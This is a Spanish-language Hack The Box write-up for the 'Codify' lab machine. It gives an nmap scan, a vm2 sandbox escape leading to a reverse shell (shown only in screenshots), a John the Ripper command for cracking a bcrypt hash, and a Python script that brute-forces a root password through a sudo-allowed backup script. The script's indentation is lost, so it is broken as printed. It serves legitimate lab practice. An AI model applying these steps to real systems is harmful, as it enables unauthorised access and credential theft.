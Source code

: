 ```yaml
---
layout: single
title: Codify - Hack The Box
excerpt: "Para vulnerar esta máquina ByPasseamos la medidad de seguridad de la biblioteca vim2 donde podemos ejecutar código malicioso NodeJS, pudiendo así llevar a cabo una ejecución Remota de Comandos, aprovechándonos de esto nos entablamos una Reverse Shell para posterior a ello escalar Privilegios con unas credenciales de una base de datos que estarían hasheadas, usamos una herramienta para ver en texto plano las credenciales, por último llevaríamos a cabo una Escalada de Privilegios para convertirnos en ROOT aprovechandonos de un .sh del cual tenemos SUDOERS"
date: 2023-11-08
classes: wide
header:
  teaser: /assets/images/htb-writeup-codify/codify_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:
  - vm2 Sandbox Bypass
  - RCE
  - db creds
  - password cracking
  - abusing sudoers
  - brute force login

---
```


![](/assets/images/htb-writeup-codify/codify_logo.png)

# PortScan

```
nmap -p- --open -vvv --min-rate 5000 -Pn -n 10.10.11.239
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-08 12:23 AST
Initiating SYN Stealth Scan at 12:23
Scanning 10.10.11.239 [65535 ports]
Discovered open port 80/tcp on 10.10.11.239
Discovered open port 22/tcp on 10.10.11.239
Discovered open port 3000/tcp on 10.10.11.239
Completed SYN Stealth Scan at 12:23, 13.36s elapsed (65535 total ports)
Nmap scan report for 10.10.11.239
Host is up, received user-set (0.054s latency).
Scanned at 2023-11-08 12:23:17 AST for 13s
Not shown: 65520 closed tcp ports (reset), 12 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
80/tcp   open  http    syn-ack ttl 63
3000/tcp open  ppp     syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 13.50 seconds
           Raw packets sent: 67086 (2.952MB) | Rcvd: 65581 (2.623MB)
```


# Sitio Web

![](/assets/images/htb-writeup-codify/Pasted image 20231108122352.png)

Sí leemos, vemos qué es un sitio web para probar código en Node.js, lo primero qué se me ocurre es probar código malicioso JavaScript, pero seguimos indagando un poco en la página, hasta que en la parte izquierda vemos una opción de "**About US**", clickeó allí para ver sí dan algún tipo de información.

![](/assets/images/htb-writeup-codify/Pasted image 20231108122528.png)

Como vemos nos dice qué está usando una librería **"vm2"**, para evitar el JavaScript & qué también tiene una capa de seguridad para evitar código malicioso, lo primero que se me ocurre es buscar en internet posibles **ByPass** para el vm2, así encontrando este recurso:

https://security.snyk.io/vuln/SNYK-JS-VM2-5537100

El recurso nos proporciona un **PoC** para llevar a cabo una **RCE**, lo probamos en el editor de texto del sitio web.

![](/assets/images/htb-writeup-codify/Pasted image 20231108122947.png)

Como vemos estamos llevando a cabo una ejecución Remota de Comandos, por lo qué podemos entablarnos una Reverse Shell de manera fácil.
![](/assets/images/htb-writeup-codify/Pasted image 20231108123302.png)

Nos ponemos en escucha...

![](/assets/images/htb-writeup-codify/Pasted image 20231108123251.png)


Obtendríamos la Reverse Shell y estaríamos dentro de la máquina, tan sólo quedaría darle tratamiento a la TTY, sino sabes, te recomiendo ver este post.[((Click aquí))]()

# Escalada de Privilegios #1 

Sí vemos el **"/etc/passwd"** veríamos que hay un usuario con nombre "**joshua**", así que nos interesaría convertirnos en él, buscando recursos qué podamos leer y aprovecharnos, encontramos en la ruta "**/var/www/conctact**" que dentro contiene una .db.

![](/assets/images/htb-writeup-codify/Pasted image 20231108123645.png)


Como vemos tenemos un hash con lo que parece ser la contraseña, así que usamos la herramienta "**John The Rippe**r" para tratar de hacerle un descrypt.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=bcrypt --show
```

dentro del "hash.txt" pondríamos el hash qué vimos de la .db para brute forcearlo, dándonos al cabo de unos minutos la credencial correspondiente del usuario **Joshua**, por lo qué podríamos convertirnos en él.

![](/assets/images/htb-writeup-codify/Pasted image 20231108123956.png)

# Escalada de Privilegios #2

Sí buscamos por permisos SUDOERS.

![](/assets/images/htb-writeup-codify/Pasted image 20231108124112.png)

Vemos que podemos ejecutar como **Root** el script en Bash "**mysql-backup.sh**", lo ejecutamos para ver como funciona.
![](/assets/images/htb-writeup-codify/Pasted image 20231108124236.png)

Debemos proporcionar la contraseña de **Root**, cuyas credenciales no sabemos, pero como podemos ejecutar el script las veces qué queramos podemos hacer un ataque de fuerza bruta, para ello nos aprovechamos del siguiente script en Python.

```python
import string  
import subprocess  
all = list(string.ascii_letters + string.digits)  
password = ""  
found = False  
  
while not found:  
for character in all:  
command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"  
output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout  
  
if "Password confirmed!" in output:  
password += character  
print(password)  
break  
else:  
found = True
```

Que al ejecutarlo nos reportará la contraseña, y ya podemos convertirnos en ROOT.

![](/assets/images/htb-writeup-codify/Pasted image 20231108124612.png)
